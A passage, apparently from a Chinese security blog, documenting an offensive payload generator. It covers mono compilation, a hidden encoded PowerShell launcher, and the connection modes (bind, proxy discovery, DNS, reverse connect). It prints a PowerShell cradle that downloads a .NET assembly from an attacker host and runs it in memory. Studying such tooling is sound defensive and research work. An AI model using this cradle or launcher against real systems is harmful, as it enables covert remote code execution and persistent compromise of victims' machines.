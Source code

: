 **注：**

需要安装mono开发环境，kali安装命令为`apt-get install mono-mcs`

关于mono的使用可以参考之前的文章[《通过Mono(跨平台.NET运行环境)执行shellcode》](https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87Mono(%E8%B7%A8%E5%B9%B3%E5%8F%B0.NET%E8%BF%90%E8%A1%8C%E7%8E%AF%E5%A2%83)%E6%89%A7%E8%A1%8Cshellcode/)

这个命令是在`gen -f csharp`的基础上，添加了使用mono编译的功能

### 10..NET_oneliner

通过powershell从内存加载.NET程序集

命令示例：

```
gen -f .NET_oneliner
```

在命令行输出Powershell代码，示例：

```
powershell -w hidden -enc "xxxxxxxxxxxxxx"
```

这个命令是在`gen -f .NET`的基础上，添加了通过powershell从内存加载.NET程序集的功能

powershell从内存加载.NET程序集的实现代码如下：

```
[Reflection.Assembly]::Load(""(new-object net.webclient).DownloadData(""'http://{link_ip}:{port}{landing_uri}')).GetTypes()[0].GetMethods("")[0].Invoke($null,@())"
```

之前的文章[《从内存加载.NET程序集(Assembly.Load)的利用分析》](https://3gstudent.github.io/3gstudent.github.io/%E4%BB%8E%E5%86%85%E5%AD%98%E5%8A%A0%E8%BD%BD.NET%E7%A8%8B%E5%BA%8F%E9%9B%86(Assembly.Load)%E7%9A%84%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/)分析过从内存加载.NET程序集的方法

### 补充：额外的参数

对于生成的启动文件，还支持以下参数：

- 是否压缩
- 是否使用系统代理
- 设置连接次数和间隔时间
- 设置启动前执行的Python脚本

## 0x04 支持的连接方式
---

支持以下四种：

- bind，绑定端口，作为正向连接使用
- auto_proxy，检索可能的SOCKS/HTTP代理列表并使用，检索方法包括：注册表，WPAD请求，gnome设置，环境变量HTTP_PROXY
- dnscnc，dns协议？（这个功能暂时无法测试）
- connect，默认方式，反向连接到服务器

## 0x05 支持的通信协议
---
